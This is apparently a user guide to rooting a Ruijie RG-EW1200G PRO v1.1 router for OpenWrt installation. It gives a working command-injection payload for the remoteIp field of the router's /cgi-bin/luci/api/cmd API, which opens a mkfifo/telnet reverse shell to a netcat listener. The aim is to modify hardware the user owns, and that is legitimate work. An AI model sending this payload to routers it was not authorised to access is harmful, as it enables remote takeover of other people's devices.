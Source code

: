 Instructions to gain rootshell on Ruijie RG-EW1200G PRO v1.1 routers for openwrt installation

Source:  
https://gist.github.com/ZIKH26/18693c67ee7d2f8d2c60231b19194c37  
https://bbs.kanxue.com/thread-280448.htm

**Disclaimer: Proceeding with these instructions using the firmware provided may cause your Ruijie RG-EW1200G PRO v1.1 router to brick.
Please read through carefully and exercise extreme caution.
By using any of the resources and instructions provided, all risks and responsibilities will be solely on the user.
It is recommended to save and backup your existing configuration and working firmware before proceeding any further.**

Specific firmware version (EW_3.0(1)B11P219_EW1200GI_10182113) is required for a command injection vulnerability using http post on /cgi-bin/luci/api/cmd via the remoteIp field.
The working firmware for this is attached.
[RG-EW1200G PRO Wireless Routers EW_3.0(1)B11P219 firmware.zip](https://github.com/user-attachments/files/18793087/RG-EW1200G.PRO.Wireless.Routers.EW_3.0.1.B11P219.firmware.zip)

Step by step instructions:
1. Make sure the working firmware (EW_3.0(1)B11P219_EW1200GI_10182113) is installed on your Ruijie RG-EW1200G PRO v1.1 router before proceeding. Just login to the router's UI on a web browser and use the upgrade function.
2. Install Mozilla Firefox and HackBar extension https://addons.mozilla.org/en-US/firefox/addon/hackbar/
3. Download nc64.exe from https://github.com/int0x33/nc.exe/
4. Place nc64.exe at an easy to access drive or folder, for example drive D
5. Open windows powershell, navigate to drive D with command 'cd D:'  
   ![image](https://github.com/user-attachments/assets/3e6156c5-4661-4561-bb79-39dda7f195c9)
6. Start netcat lookup on port 666 with command '.\nc64.exe -lvvp 6666'
7. Go to your Ruijie RG-EW1200G PRO v1.1 router UI page by typing in the router IP on Mozilla Firefox
8. Login and open up the developer console (F12) and select the network tab  
   ![image](https://github.com/user-attachments/assets/5501998d-ffee-418f-a2a6-a0f40761c369)
9. Look for the auth code and copy the full URL with path /cgi-bin/luci/api/cmd as shown above
10. On the developer console top tab, select HackBar (might have to expand the tab to see HackBar)
11. Paste the URL copied in step 9 in the URL form, enable Use POST method and select application/json for post type  
    ![image](https://github.com/user-attachments/assets/68cc58f5-d32e-4de6-9d81-2c3470d276c0)
12. Enter the below code into the Body content and click EXECUTE
```
{
    "method": "devConfig.get",
    "params": {
        "module": "123",
        "remoteIp": "$(mkfifo /tmp/test;telnet <your windows machine ip> 6666 0</tmp/test|/bin/sh > /tmp/test)",
        "data": {
            "kkk": "abc"
        }
    }
}
```
13. If everything is executed correctly, the tab should load and send out the http post  
    ![image](https://github.com/user-attachments/assets/7b66c4c8-09a7-4fb9-8abf-d8af139035c1)
14. On the powershell window, there should be a response from the netcat lookup  
    ![image](https://github.com/user-attachments/assets/1c96ac98-a5be-4d12-a167-648be028b629)
15. Type 'pwd' then enter, followed by 'ls' to list the exposed folders and lastly 'id' to check for root access
16. If the rootshell process is done correctly, the response should be similar to the above image
